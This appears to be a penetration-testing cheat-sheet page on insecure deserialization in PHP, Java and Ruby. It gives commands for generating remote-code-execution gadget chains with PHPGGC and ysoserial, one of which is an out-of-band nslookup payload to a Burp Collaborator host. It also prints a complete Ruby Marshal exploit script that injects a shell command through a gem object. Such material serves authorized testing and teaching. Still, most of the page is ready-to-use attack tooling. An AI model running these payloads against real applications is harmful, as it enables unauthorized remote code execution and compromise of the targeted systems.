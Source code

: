 ```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag phpggc }} "https://github.com/ambionics/phpggc.git#master"
```

</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.

```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```

The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>

#### Usage

You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>

Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>

## Java

### Ysoserial

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag ysoserial }} "https://github.com/frohoff/ysoserial.git#master"
```

</template>
<template v-slot:cli>

Download the latest `ysoserial.jar` from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

</template>
</smart-tabs>

#### Usage

List the possible gadget chains with no arguments:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar
```

</template>
</smart-tabs>

Generate a serialized object to exploit your target:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
</smart-tabs>

The objects will likely be sent on base64 or similar formats instad of using the bytes directly. For this cases `base64 -w 0` is your friend as it will generate base64 in just one line:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
</smart-tabs>

You will likely want to test a bunch of gadget chains with Burp's intruder or a script. The following script will help you to create a list with a sample of every serializated exploit:

> TODO: Finish implementing the script

### Using custom gadget chains

If you got access to some source code, you might want to develop your own gadget chain. The following snippet can be used as an example of how to serialize and deserialize objects in Java:

```java[Main.java]
import data.Foo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        Foo originalObject = new Foo("str", 123);

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        Foo deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized data str: " + deserializedObject.str + ", num: " + deserializedObject.num);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```


## Ruby

### Ruby 2.X deserialization RCE

Therre is a known gadget chain that achieves RCE on Ruby applications. The requsites are as follows:
1. The ActiveSupport gem **must** be installed and loaded.
2. ERB from the standard library **must** be loaded (_which Ruby does not load by default_).
3. After deserialization, a method that does not exist must be called on the deserialized object.

> While these pre-requisites will almost certainly be fulfilled in the context of any Ruby on Rails web application, they are rarely fulfilled by other Ruby applications.

```ruby[deserialzationRORexploit.rb]
#!/usr/bin/env ruby

class Gem::StubSpecification
	def initialize; end
end

stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|{{ payload whoami }} 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts

class Gem::Source::SpecificFile
	def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts

$dependency_list = Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts

class Gem::Requirement
	def marshal_dump
		[$dependency_list]
	end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
	pipe.print payload
	pipe.close_write
	puts pipe.gets
	puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```